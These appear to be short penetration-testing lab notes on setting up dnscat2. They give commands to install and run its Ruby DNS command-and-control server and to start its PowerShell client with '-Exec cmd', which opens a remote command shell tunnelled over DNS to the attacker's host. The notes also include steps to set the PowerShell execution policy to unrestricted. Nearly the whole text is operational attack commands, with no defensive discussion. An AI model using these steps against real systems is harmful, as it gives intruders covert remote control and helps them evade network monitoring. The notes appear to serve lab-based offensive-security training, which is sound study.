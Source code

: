 # SETUP  
git clone https://github.com/iagox86/dnscat2.git  
  
```
cd dnscat2/server/  
sudo gem install bundler  
bundle install  
```
  
# Run  
```
sudo ruby dnscat2.rb --dns host=LHOST,port=53,domain=inlanefreight.local --no-cache  
```
  
## Powershell version  
```
git clone https://github.com/lukebaggett/dnscat2-powershell.git  
```
  
```powershell
powershell  
Import-Module .\dnscat2.ps1  
Start-Dnscat2 -DNSserver LHOST -Domain inlanefreight.local -PreSharedSecret 0x0 -Exec cmd
```  
  
## if issues with digital signatures  
```
set-executionpolicy unrestricted
```